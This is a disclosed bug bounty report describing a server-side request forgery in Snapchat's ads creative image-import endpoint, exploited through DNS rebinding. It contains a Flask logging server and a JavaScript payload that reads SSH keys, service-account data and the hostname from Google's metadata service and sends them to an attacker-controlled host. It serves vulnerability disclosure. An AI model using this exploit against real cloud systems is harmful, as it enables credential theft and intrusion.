 # Server-Side Request Forgery using Javascript allows to exfill data from Google Metadata

## Report Details
- **Report ID**: 530974
- **URL**: https://hackerone.com/reports/530974
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-04-08T05:29:28.539Z
- **Disclosed**: 2020-11-30T18:27:26.494Z

## Reporter
- **Username**: nahamsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: snapchat

## Vulnerability Information
Hey there, 
I was looking at your ads site with @daeken, we found some weird behavior in the import function of the creative app. Here are the steps:

#POC
- Login to https://business.snapchat.com/
- Go to creative library -> New Creative 
- Under "Topsnap Media", click on "Create"
- Click on any of the templates and load it
- Click on one of the images in the template -> Replace -> Import
- _This is where the SSRF exists_. Where you fetch images for your creative (`/api/v1/media/import`)
-  Run this somewhere publicly accessible:

```
from flask import Flask, request
from flask_cors import CORS
from time import sleep

app = Flask(__name__)
CORS(app)

import logging
log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)

@app.route("/")
def helloWorld():
        sleep(3)
        return 'hi!'

@app.route('/log')
def log():
        print request.args['msg']
        return ''

app.run(host='0.0.0.0')
```

- Put this on another domain you control. Change demon.██████████ to the host where you put this html file, and change ssh.████ to the host you're running the timing script (above) on.

```
<script>
var logTimeServer = 'ssh.█████';
var attackServer = 'demon.██████';

function log(data) {
    var sreq = new XMLHttpRequest();
    sreq.open('GET', 'http://' + logTimeServer + ':5000/log?msg=' + encodeURI(data), true);
    sreq.send();
}

function get(url) {
    try {
        var req = new XMLHttpRequest();
        req.open('GET', url, false);
        req.setRequestHeader('X-Google-Metadata-Request', 'True');
        req.send(null);
        if(req.status == 200)
            return req.responseText;
        else
            return '[failed status=' + req.status + ']';
    } catch(err) {
        log(err);
    }
    return null;
}

log('Triggered in ' + window.location.href);

for(var i = 0; i < 60; ++i) {
    log('Loop ' + i);
    var req = new XMLHttpRequest();
    req.open('GET', 'http://' + logTimeServer + ':5000/', false);
    req.send();
}
log('SSH Keys: ' + get('http://' + attackServer + '/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json'));
log('Service Accounts: ' + get('http://' + attackServer + '/computeMetadata/v1/instance/service-accounts/?recursive=true&alt=json'));
log('Hostname: ' + get('http://' + attackServer + '/computeMetadata/v1/instance/hostname'));
</script>
```

- Now hit `/api/v1/media/import` on `ads.snapchat.com`, with the URL parameter http://demon.███████/ssrf.html (or wherever you run it)
- Immediately after requesting `ssrf.html`, switch the DNS on the domain to point to 169.254.169.254, and wait 3 minutes.  ssrf.html needs to be running on port 80, that way when the DNS changes, it starts talking to the metadata service.

## Impact

#SSH Keys:

```
SSH Keys: "██████"
```

#Hostname: 
`█████████`

## Attachments
No attachments
